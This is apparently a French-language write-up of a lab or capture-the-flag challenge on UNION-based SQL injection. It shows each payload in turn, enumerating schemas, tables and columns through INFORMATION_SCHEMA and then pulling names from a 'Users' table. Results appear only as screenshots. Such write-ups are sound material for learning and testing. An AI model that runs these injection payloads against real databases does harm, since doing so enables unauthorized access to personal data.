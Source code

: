 # Informations

Il nous est suggéré d'utiliser ici les ```UNION```. On cherche donc le nombre de champs pour l'injection et on trouve :</br></br>
![image](https://user-images.githubusercontent.com/73934639/174606807-94f0afe3-64a3-48bc-a1b1-ce02e228ed0a.png)
</br>

On cherche le nom de la base de données avec ```schema_name``` de la table ```INFORMATION_SCHEMA.SCHEMATA``` (``` UNION SELECT 1,schema_name from INFORMATION_SCHEMA.SCHEMATA -- -```).
On obtient deux bases de données :</br></br>
![image](https://user-images.githubusercontent.com/73934639/174607177-ca835e49-fe54-4ac0-b8e7-bbf22fb8ba92.png)
</br>

On se concentre maintenant sur la base de données ```UnionVendeurs```. On cherche les tables qu'elle contient (``` ' UNION select TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.TABLES where table_schema='UnionVendeurs' -- - ```):</br>
![image](https://user-images.githubusercontent.com/73934639/174607754-a71093ce-9d0f-4963-b26b-55463ca17e09.png)
</br>

La table ```Users``` semble être la plus intéressante. Mais nous ne connaissons pas le nom des colonnes (``` ' UNION select COLUMN_NAME,TABLE_NAME from INFORMATION_SCHEMA.COLUMNS where table_name='Users' -- - ```):</br>
![image](https://user-images.githubusercontent.com/73934639/174610013-90393f71-c3b6-4b1a-9f4b-c08cfec9af93.png)
</br>

On récupère le nom et le prénom ``` UNION select nom, prenom from Users -- -```:</br>
![image](https://user-images.githubusercontent.com/73934639/174610266-6421865e-fb7a-45ea-bc7d-c0b74ed07d90.png)

